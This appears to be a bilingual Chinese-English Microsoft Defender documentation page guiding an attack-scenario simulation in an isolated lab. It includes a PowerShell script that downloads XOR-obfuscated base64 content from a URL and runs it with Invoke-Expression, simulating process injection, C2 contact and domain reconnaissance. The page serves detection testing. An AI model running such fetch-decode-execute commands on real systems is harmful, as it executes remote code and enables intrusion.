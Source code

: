 <span data-ttu-id="5cde8-182">运行攻击方案模拟：</span><span class="sxs-lookup"><span data-stu-id="5cde8-182">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="5cde8-183">确保试点环境包括隔离的 AD DS 域控制器和Windows 10设备。</span><span class="sxs-lookup"><span data-stu-id="5cde8-183">Ensure that your pilot environment includes the isolated AD DS domain controller and Windows 10 device.</span></span>

2. <span data-ttu-id="5cde8-184">使用测试用户帐户登录到测试设备。</span><span class="sxs-lookup"><span data-stu-id="5cde8-184">Sign in to the test device with the test user account.</span></span>

3. <span data-ttu-id="5cde8-185">在测试Windows PowerShell打开一个"打开"窗口。</span><span class="sxs-lookup"><span data-stu-id="5cde8-185">Open a Windows PowerShell window on the test device.</span></span>

4. <span data-ttu-id="5cde8-186">复制以下模拟脚本：</span><span class="sxs-lookup"><span data-stu-id="5cde8-186">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="5cde8-187">如果在 Web 浏览器中打开本文，在复制全文而不丢失某些字符或引入额外的换行符时可能会遇到问题。</span><span class="sxs-lookup"><span data-stu-id="5cde8-187">If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="5cde8-188">如果是这种情况，请下载此文档，在 Adobe Reader 上打开它。</span><span class="sxs-lookup"><span data-stu-id="5cde8-188">If this is the case, download this document and open it on Adobe Reader.</span></span>

5. <span data-ttu-id="5cde8-189">在 PowerShell 窗口中粘贴并运行复制的脚本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-189">Paste and run the copied script in the PowerShell window.</span></span>

> [!NOTE]
> <span data-ttu-id="5cde8-190">如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的"键入剪贴板文本"命令，因为 **CTRL-V** 热键或右键单击粘贴方法可能不起作用。</span><span class="sxs-lookup"><span data-stu-id="5cde8-190">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="5cde8-191">PowerShell 的最新版本有时也不接受该方法，您可能首先必须复制到内存中的 记事本，将其复制到虚拟机中，然后将其粘贴到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-191">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="5cde8-192">几秒钟后，应用记事本打开。</span><span class="sxs-lookup"><span data-stu-id="5cde8-192">A few seconds later, the Notepad app will open.</span></span> <span data-ttu-id="5cde8-193">模拟攻击代码将注入到记事本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-193">A simulated attack code will be injected into Notepad.</span></span> <span data-ttu-id="5cde8-194">将自动生成的记事本实例保持打开状态，以体验完整方案。</span><span class="sxs-lookup"><span data-stu-id="5cde8-194">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="5cde8-195">模拟攻击代码将尝试与外部 IP 地址通信 (模拟 C2 服务器) 然后尝试通过 SMB 重新对域控制器进行重新连接。</span><span class="sxs-lookup"><span data-stu-id="5cde8-195">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>
